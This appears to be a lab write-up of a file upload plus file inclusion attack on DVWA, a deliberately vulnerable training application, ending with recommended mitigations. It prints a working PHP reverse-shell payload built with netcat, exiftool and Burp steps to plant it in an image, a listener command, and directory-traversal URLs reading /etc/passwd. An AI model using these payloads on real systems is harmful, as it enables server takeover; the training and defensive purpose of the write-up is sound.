# Malicious file upload vulnerability and file inclusion leads to reverse shell

**Summary:**

Malicious file upload vulnerability with directory traversal to start a reverse shell.

**Description:**

- Malicious file uploads occur when files are uploaded to the filesystem by the user and the name, type, content and size of the file are not sufficiently validated. This leads to dangerous files being uploaded to the server.
- PHP code can be uploaded via file upload with the use of exiftool or burp suite. Then the user can use a file inclusion / directory traversal to run the php script to get access to a reverse shell which they can use to escalate their privileges.

Affected URLs and affected objects: 
- http://localhost/DVWA/vulnerabilities/upload/ the file upload form upload the payload

    

- http://localhost/DVWA/vulnerabilities/fi/?page=include.php the URL to access the payload

    

**Severity:**

P1: Critical 

Server-Side Injection > File Inclusion

Server Security Misconfiguration > Unsafe File Upload

**Steps to Reproduce:**

Setup: Set Security Level to high (after logging in).



1. Find a jpg and run the command in terminal: 
`exiftool -Comment="<?php echo system('nc -e /bin/sh 127.0.0.1 4444') ?>" image.jpg`



2. Rename the image from image.jpg to image.php.jpg



3. Upload the image.php.jpg file and you will get the file path in the message:
../../hackable/uploads/image.php.jpg successfully uploaded!



4. Start a netcat listener with the command:
nc -lvnp 4444



5. Visit the path at ../../hackable/uploads/image.php.jpg and copy down it's url:
`http://localhost/DVWA/hackable/uploads/image.php.jpg`

6. Go to the File Inclusion page 

6. Test for file inclusion vulnerability in the url:
`http://localhost/DVWA/vulnerabilities/fi/?page=file1.php||page=../../../../../../../../etc/passwd`



7. Make sure your netcat listener is running in the terminal (step 4). Now change url for the file inclusion vulnerability to view the image.php.jpg file in the url:

`http://localhost/DVWA/vulnerabilities/fi/?page=file1.php||page=../../../../hackable/uploads/image.php.jpg`



8. Look back at your netcat listener and type id and you will find you have access to a shell with the www-data user and you can then try to gain escalated privileges with that user.





Note: the website will be frozen until you exit the shell in your terminal.

Other Method: Burp Suite Steps

1. Find an image file. 

2. When uploading the file, go to Burp Suite intercept and at the end of the image data add the php code: 
`<?php echo system('nc -e /bin/sh 127.0.0.1 4444') ?>`



3. Then forward the upload request. 

Then follow the steps from step 5 but make sure you visit the file you uploaded even if it doesn't contain .php. As long as the php code is uploaded in the data when the file is called with the file inclusion vulnerability it will run in the html code. Make sure to have netcat listener running to get a reverse shell.

**Impact**

You can gain access to a reverse shell which can lead to command execution on the server and try to escalate your privileges.

This happens because when the file is called with the file inclusion vulnerability, the web picks up that it's php code and it runs with the html elements.

**Recommended Mitigations**

Mitigation 1

Files should be scanned for malware and php code so they can be flagged for deletion. 

I found a PHP Antimalware Scanner which claims it removes dangerous functions, exploits and signatures. The dangerous functions include `system` and `shell_exec`.

Explanation link: https://marcocesarato.github.io/PHP-Antimalware-Scanner/#:~:text=PHP%20Antimalware%20Scanner%20is%20a,seem%20to%20contain%20malicious%20code.

GitHub: https://github.com/marcocesarato/PHP-Antimalware-Scanner 

Mitigation 2

Make sure that no special characters are allowed in the file inclusion path. For example, '|' should not have been accepted, and any ../ even if they are encoded, they should not be allowed. 

Make an if statement with the filenames that you expect the user to input. You can go through a list of predetermined values and if the user input matches the filename then the resource can be used. Otherwise, all other requests are dropped. Users should only be allowed to view what they are expected to view.
